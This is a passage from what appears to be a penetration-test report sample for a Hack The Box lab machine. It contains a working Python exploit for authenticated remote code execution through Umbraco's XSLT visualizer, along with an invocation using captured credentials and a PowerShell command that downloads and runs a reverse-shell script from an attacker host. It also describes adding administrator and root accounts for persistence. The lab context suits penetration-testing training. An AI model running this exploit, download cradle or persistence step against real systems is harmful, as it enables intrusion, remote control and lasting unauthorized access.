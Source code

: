proxyDict = {                                                                                                                                             
                      "http"  : http_proxy,                                                                                                               
                      "https" : https_proxy,                                                                                                              
                      "ftp"   : ftp_proxy                                                                                                                 
                                                                                                                                                          
}                                                                                                                                                         
                                                                                                                                                          
# Process Login                                                                                                                                           
url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"                                                                              
loginfo = { "username": login, "password": password}                                                                                                      
s = requests.session()                                                                                                                                    
r2 = s.post(url_login,json=loginfo, proxies=proxyDict )                                                                                                   
                                                                                                                                                          
# Go to vulnerable web page                                                                                                                               
url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"                                                                                            
r3 = s.get(url_xslt, proxies=proxyDict)                                                                                                                   
                                                                                                                                                          
soup = BeautifulSoup(r3.text, 'html.parser')                                                                                                              
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']                                                                                                          
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}
data = { "__EVENTTARGET": "", "__EVENTARGUMENT": "", "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT" }

# Launch the attack
r4 = s.post(url_xslt, data=data, headers=headers, proxies=proxyDict)
# Filter output
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)
```
# Execution exploit

```
python3 -m http.server 8080
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c 'powershell.exe' -a "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.27:8000/reverse.ps1')"
```



![ImgPlaceholder](src/placeholder-image-300x225.png)

\newpage

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
```